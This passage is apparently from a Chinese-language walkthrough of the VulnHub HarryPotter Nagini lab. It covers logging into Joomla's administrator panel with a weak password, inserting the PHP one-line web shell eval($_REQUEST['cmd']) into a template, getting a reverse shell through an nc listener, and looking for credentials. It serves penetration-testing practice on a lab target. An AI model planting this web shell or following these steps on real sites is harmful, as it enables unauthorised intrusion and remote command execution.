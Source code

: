 ![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\21.jpg)

## 网站管理登录

访问之前的`joomla/administrator`路径，使用`site_admin`用户和密码`123456`进行登录

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\22.jpg)

这个界面就可以操作很多东西，在扩展处，有模板，可以在这里进行设置，这里在站点的默认界面进行插入一句话代码

```php
<?php @eval($_REQUEST['cmd'])?>
```



![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\23.jpg)





![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\24.jpg)



## 反弹shell

使用蚁🗡连接即可，当然也可以使用`kali`中的模块`/usr/share/webshells/php/php-reverse-shell.php`

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\25.jpg)



整个文件中的代码复制到目标

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\26.jpg)



然后在`kali`中使用`nc`监听1234端口，获取成功



![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\27.jpg)





切换到`/home`目录，看到文本，应该是密码，通过`base64`进行解码

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\28.jpg)

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\28-1.jpg)

尝试进入`.ssh`目录，查看有无私钥等，发现无权

![](D:\stu\vulnhub\harrypotter靶场\pic-nagini\29.jpg)
